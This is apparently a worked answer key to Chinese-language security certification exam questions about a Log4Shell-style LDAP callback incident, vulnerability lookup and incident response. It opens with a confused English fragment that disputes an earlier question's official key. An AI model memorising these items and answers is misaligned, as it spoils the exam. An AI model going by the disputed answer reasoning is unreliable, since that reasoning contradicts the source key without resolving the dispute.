*Correction based on re-evaluating PDF Answer Key A, C*: This implies B and D are considered incorrect statements by the exam. Why could B be incorrect? Maybe removing the class is considered too intrusive or not officially sanctioned for all versions. Why could D be incorrect? While the core issue is recursion, perhaps certain attack vectors for *triggering* that recursion *might* involve external interaction (though less likely)? This answer key seems problematic. Let's stick to the logical analysis A, B, D are correct, C is incorrect. If forced to choose according to key A, C (meaning A and C are TRUE statements), then C is definitely incorrect based on official recommendations. A is correct. This key is likely wrong.
*Assuming A,B,D are correct statements according to security principles.*
【題組5】背景描述：某網站維護人員發現其網頁應用程式伺服器回應緩慢, 因此進行應用程式效能分析與除錯, 發現應用程式日誌中有以下的異常錯誤訊息: (日誌顯示大量 Connection refused 錯誤, 嘗試連接外部 LDAP 伺服器 192.168.1.254:389)
分析應用程式日誌中的訊息, 下列敘述何者正確?

A
應用程式疑似連線至外部網站, 並且成功下載惡意軟體
B
應用程式疑似設定錯誤, 後端 SMB 伺服器無法正常連線
C
應用程式疑似存在弱點, 並嘗試連線 LDAP 伺服器
D
應用程式疑似記憶體不足, 無法完成 LDAP 伺服器連線
日誌中的關鍵訊息是大量嘗試連接 LDAP 伺服器 (端口 389) 但被拒絕 (Connection refused)。
(A) 日誌顯示的是嘗試連線 LDAP 並失敗，沒有成功下載惡意軟體的跡象。
(B) 錯誤訊息與 LDAP 有關，與 SMB 伺服器無關。
(C) 大量嘗試連接一個（可能是外部或內部的）LDAP 伺服器但失敗，非常符合應用程式存在 Log4Shell (CVE-2021-44228) 或類似的 JNDI Injection 漏洞，被觸發後嘗試向指定的 LDAP 伺服器發起查詢。這是最合理的解釋。
(D) Connection refused 通常表示目標主機的目標端口沒有服務在監聽，或者被防火牆阻擋，而不是應用程式記憶體不足。
因此，最正確的敘述是 (C)。
【題組5 背景描述如前】若懷疑應用程式伺服器存在弱點, 關於弱點評估, 下列敘述何者「不」正確?
A
可透過 CVE 網站, 查詢已公開或未公開的弱點資訊
B
可透過網站伺服器之存取紀錄分析, 判斷是否遭受攻擊
C
可透過 NVD (National Vulnerability Database) 資料庫之商業服務, 進行弱點掃描偵測
D
可透過 Exploit-DB 資料庫搜尋, 可能相關之攻擊代碼
評估伺服器弱點的方法：
(A) CVE (Common Vulnerabilities and Exposures) 網站 (cve.mitre.org) 主要列出已公開的漏洞資訊。它不包含未公開的（零時差）漏洞資訊。錯誤。
(B) 分析網站伺服器的存取日誌（access log）和錯誤日誌（error log），可以發現可疑的請求模式、異常的存取來源或錯誤訊息，有助於判斷是否遭受攻擊。正確。
(C) NVD 是美國政府維護的漏洞資料庫，它基於 CVE 提供更豐富的資訊（如 CVSS 評分）。許多商業的弱點掃描工具會利用 NVD 的數據來進行掃描和檢測。敘述合理。
(D) Exploit-DB 是一個公開的漏洞利用程式（Exploit Code）資料庫。搜尋該資料庫可以找到針對特定漏洞的可用攻擊代碼，用於驗證漏洞或進行滲透測試。正確。
因此，「不」正確的敘述是 (A)。
【題組5 背景描述如前】若有跡證顯示伺服器已受駭, 並確認為所安裝之軟體或元件存在弱點, 下列資安事故處理流程何者較「不」正確?
A
疑似受駭伺服器, 原系統立即重新安裝系統與應用程式
B
於應用程式防火牆或入侵偵測系統, 設定阻擋規則以緩解
C
依據資產清冊盤點弱點軟體狀態, 排定更新計畫並執行
D
分析系統與網路日誌, 清查攻擊者未進行內部橫向移動
資安事件處理流程：
(A) 在確認伺服器受駭後，
立即在
原系統上
直接重灌系統是
不恰當的。原因：
- 可能破壞重要的數位證據，影響後續的鑑識和根因分析。
- 如果未完全清除惡意程式或後門（可能潛藏在非系統分割區或其他地方），重灌後可能再次被感染。
- 應先進行證據保全（如製作磁碟映像），然後在乾淨的環境下進行系統重建和恢復。
(B) 在分析攻擊特徵後，利用
WAF 或
IPS 設定
阻擋規則（
虛擬修補），是一種
快速遏制攻擊或
緩解影響的常用手段。
(C) 找出被利用的
弱點，並
規劃和執行更新修補，是
根除漏洞、防止再次被利用的必要步驟。
(D)
分析日誌，確認攻擊者的
活動範圍，特別是
是否已橫向移動到其他內部系統，對於評估
整體影響和
制定清理範圍至關重要。
因此，較「不」正確的流程是 (A)。
【題組5 背景描述如前】針對此次資安事故進行根因分析, 確認為未能即時識別系統中惡意活動, 下列矯正措施敘述哪些正確? (複選)
A
確保帳號登錄、存取控制或輸入驗證等異常事件, 皆留存於日誌中, 並保留足夠資訊以識別攻擊來源
B
日誌留存需為合理時間, 以供後續電腦鑑識查閱使用
C
建立監控告警機制, 確保可疑活動於接受時間內發現處置
D
全面執行滲透測試或紅隊演練, 並確保相關攻擊皆未於日誌中留下軌跡, 即代表資安縱深防護已趨近完善
根因是未能即時識別惡意活動，矯正措施應著重於改善監控、偵測與記錄能力：
(A) 確保關鍵的安全相關事件（如登入失敗、權限變更、異常輸入、存取控制拒絕等）都被詳細記錄下來，並包含足夠的來源資訊（IP、帳號、時間戳等），是有效監控和事後分析的基礎。
(B) 日誌保留時間應根據法規要求和內部調查需求設定一個合理的期限（例如至少半年或一年），以便在需要時能回溯查閱。
(C) 建立自動化的監控和告警機制（如 SIEM），設定規則來偵測可疑活動並及時發出警報，以便能在可接受的時間內發現並處置。
(D) 滲透測試或紅隊演練的目的是找出防禦的弱點。理想情況下，其攻擊行為應該被偵測並在日誌中留下軌跡。如果攻擊未留下任何軌跡，反而可能表示監控和日誌記錄機制存在盲點或不足，不能代表防護已完善。
因此，正確的矯正措施敘述是 (A)、(B)、(C)。
*註：本題PDF標示答案為A, B, C。*